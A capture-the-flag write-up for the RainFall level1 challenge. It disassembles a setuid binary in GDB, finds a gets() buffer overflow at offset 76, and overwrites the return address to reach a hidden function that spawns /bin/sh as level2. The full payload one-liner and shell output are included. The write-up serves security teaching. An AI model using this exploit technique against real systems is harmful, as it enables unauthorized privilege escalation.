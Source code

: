 ```sh
level1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
level1@RainFall:~$ ./level1
42
level1@RainFall:~$ ./level1 42
42
level1@RainFall:~$ 
```
There is one excutable file **level1**, it works like cat, take standard input and shutting down program. \
\
Run the binary file with GDB.
```sh
(gdb) info functions
All defined functions:
Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
...
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
...
```
```sh
(gdb) disas main
   Dump of assembler code for function main:
   0x08048480 <+0>:        push      %ebp
   0x08048481 <+1>:        mov       %esp,%ebp
   0x08048483 <+3>:        and       $0xfffffff0,%esp
   0x08048486 <+6>:        sub       $0x50,%esp
   0x08048489 <+9>:        lea       0x10(%esp),%eax
   0x0804848d <+13>:       mov       %eax,(%esp)
   0x08048490 <+16>:       call      0x8048340 <gets@plt>
   0x08048495 <+21>:       leave  
   0x08048496 <+22>:       ret   
End of assembler dump.
```
We can see one function name of run() with ```info functions```, but in the main function there is no trigger to jump in run function. what is in there?
```sh
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave  
   0x0804847f <+59>:    ret    
```
Ohh.. in the run+53, there is a system call, so we should run ```run()``` function? \
We can check what is in there.
```sh
(gdb) x/s 0x8048584
0x8048584:       "/bin/sh"
```
INTERESTING! \
So we need run the function which is not called, but how?

The hint is in ```gets()``` function, which has ```buffer overflow``` vulnerability because it never specifies the read buffer size.

Since we know that we can use ```buffer overflow```, we can try to find exact location where to insert address of ```run()``` function to call it. \
For this, we wrote python script to find easier location of buffer overflow,
```sh
python level1/Ressources/helper.py
=== Buffer Overflow Pattern Generator & Offset Finder ===
Enter the length of the pattern to generate: 100
Generated pattern (100 bytes):
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2a
...
```
```sh
level1@RainFall:~$ python -c 'print "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac"' > /tmp/exploit
level1@RainFall:~$ gdb level1
(gdb) r < /tmp/exploit
Starting program: /home/user/level1/level1 < /tmp/exploit

Program received signal SIGSEGV, Segmentation fault.
0x63613563 in ?? ()
```
We can find weird address at the moment of segmentation fault, ```0x63613563```, this mean the EIP register is corrupted by buffer. \
The linux system save the data in the lowest byte order, which is called **Little Endian**. So we have to read that address in reverse, ```0x63```, ```0x35```, ```0x61```, ```0x63``` which is "c5ac" in ASCII. \
In the python script, we can find easily the exact offset location of string,
```sh
Enter the value to find (e.g., 'aa1aa2'): c5ac
'c5ac' found at offset: 76
```
So from offset 76, everything that comes after will be counted as ```buffer overflow```. \
After, simply, we just have to put the address ```run()``` function, after 76 offset in the reverse order.
```sh
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
```
in this case also, we need convert the address by little endian form,
```...ac4a\x44\x84\x04\x08```
```sh
level1@RainFall:~$ python -c 'print "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4a\x44\x84\x04\x08"' > /tmp/exploit
level1@RainFall:~$ cat /tmp/exploit - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass            
(hidden)
```
level1 passed!

